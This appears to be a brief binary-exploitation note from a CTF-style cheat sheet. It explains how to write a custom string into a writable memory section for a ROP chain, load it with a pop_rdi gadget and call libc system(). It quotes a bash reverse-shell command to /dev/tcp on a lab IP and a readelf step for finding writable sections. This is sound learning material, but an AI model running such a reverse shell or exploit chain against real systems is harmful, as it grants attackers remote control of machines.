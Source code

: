 If you want to write a payload to a custom location in the memory of the program, for example custom parameter to pass to `system` with your rop chain : `"bash -c 'bash -i >& /dev/tcp/10.10.14.9/9001 0>&1'"`  didn't exist in the target binary or the libc instead of `"/bin/bash"`.

You first need to write your payload to a writable location in the memory of the target binary then use a gadget that `pop_rdi` to the memory address of your newly written payload.
Then call `system()` from libc.

For more info, see https://youtu.be/1MDqn1kBHQM?t=1818

To find a writable memory space:
```bash
readelf -S mybinary.elf
# Then check the output for a "WA" which mean "Write Access"
# Write Access in .data section is good !
# This is generally an offset that you need to add to the base of the binary
```


